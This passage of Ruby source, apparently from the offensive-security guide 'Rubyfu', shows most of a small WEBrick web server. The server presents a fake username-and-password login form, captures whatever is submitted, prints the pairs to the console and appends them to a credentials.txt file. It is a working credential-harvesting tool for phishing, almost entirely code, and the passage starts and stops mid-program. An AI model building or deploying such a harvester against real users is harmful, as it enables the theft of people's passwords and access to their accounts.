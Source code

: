 ```ruby
  end

  private
  # Show login
  def print_login(req)
    html = %q{
      <center>
        <table cellpadding="3" border="1">
        <tr><td colspan="2"><center><h4><b>Enter your Username and Password</b></h4></center></td></tr>
        <form method="POST" action="/login">
                <tr><td><strong><b>Username:</b></strong></td><td><input name="username" type="text"></td></tr>
                <tr><td><strong><b>Password:</b></strong></td><td><input name="password" type="password"></td></tr>
                <tr><td colspan="2"><center><h1><b><input type="submit" value="Login" /></b></h1></center></td></tr>
        </form>
        </table>
      </center>
    }
  end

end

class Login < WEBrick::HTTPServlet::AbstractServlet

  # Control 'POST' request/response
  def do_POST(req, res)
    status, content_type, body = save_login(req)
    res.body  = body
  end

  # Save POST request
  def save_login(req)
    username, password = req.query['username'], req.query['password']

    if !(username && password).empty?
      # Print Credentials to console
      puts "\n-----[ START OF POST ]-----"
      puts "[+] #{username}:#{password}"
      puts "-----[ END OF POST ]-----\n\n"
      # Write Credentials to file
      File.open("credentials.txt", '+a') {|f| f.puts "#{username}:#{password}"}
      return 200, 'text/plain', 'Success! Thank you.'
    else
      puts "[!] Empty username and password."
      return 404, 'text/plain', 'Wrong username or password!'
    end

  end
end


begin
  port = ARGV[0]
  raise if ARGV.size < 1

  # Start Web Server
  puts "[+] Starting HTTP server on port: #{port}\n"
  server = WEBrick::HTTPServer.new(ServerName: "Rubyfu HTTP Server",
                                   Port: port,
                                   BindAddress: '0.0.0.0',
```